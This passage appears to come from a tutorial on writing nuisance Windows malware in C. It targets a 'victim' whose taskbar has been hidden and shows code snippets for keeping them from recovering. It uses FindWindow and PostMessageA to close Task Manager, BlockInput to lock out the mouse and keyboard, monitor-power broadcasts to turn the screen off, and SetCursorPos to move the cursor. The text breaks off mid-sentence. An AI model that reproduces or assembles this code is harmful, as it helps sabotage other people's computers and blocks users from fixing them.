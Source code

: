 ```
 return 0;
}
```

Although it's a small one, don't underestimate it. It will make your taskbar disappear every 1000 seconds. How to fix this? press ctrl+alt+delete and end both annoyingMalware.exe and explorer.exe 

It doesn't make sense to let the victim fix what we have ruined, so we want to prevent him, but how?.<br>
Well, can we make him not able to open task manager?. Obviously, yes, as long as it's coding, so nothing we can't do :) <br>
### Destroying Task Manager and other Windows.
Now, this is easy and not hard to understand. to find the task manager window or other windows, all you have to do is use the [FindWindowA()](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-findwindowa) function.
```
HWND TaskMgr;
TaskMgr = FindWindow(NULL,"Windows Task Manager");
```

Again what do we want to do?. Right, we want our victim not to be able to open task manager. An easy way to check if it's open, and if it is true, close it, simple right?.

We can do that with [PostMessageA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea) which will send a message <b>WM_CLOSE</b> in our case to close it.
```
 if( TaskMgr != NULL )
              {
                  PostMessageA( TaskMgr, WM_CLOSE, (LPARAM)0, (WPARAM)0);
              }
```

But still, we can do more, like we can block user input by [BlockInput()](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-blockinput) function, so he can't even move his mouse or write an any.

```
{
\\\
BlockInput(true);
\\\\\
}
```
We can also control his monitor as well by [SendMessage](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-sendmessage)
actually <b>SendMessage & PostMessageA</b> are kinda same but there is a little [difference](https://stackoverflow.com/questions/18526961/sendmessage-and-postmessage-which-one-is-better-to-use), but pretty sure both have same results.

```
SendMessage(HWND_BROADCAST, WM_SYSCOMMAND, SC_MONITORPOWER, (LPARAM) 2);
     Sleep(5000);
     SendMessage(HWND_BROADCAST, WM_SYSCOMMAND, SC_MONITORPOWER, (LPARAM) -1);
```
we also can play with his mouse with [SetCursorPos()](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setcursorpos) just we can set the cursor in random positions 
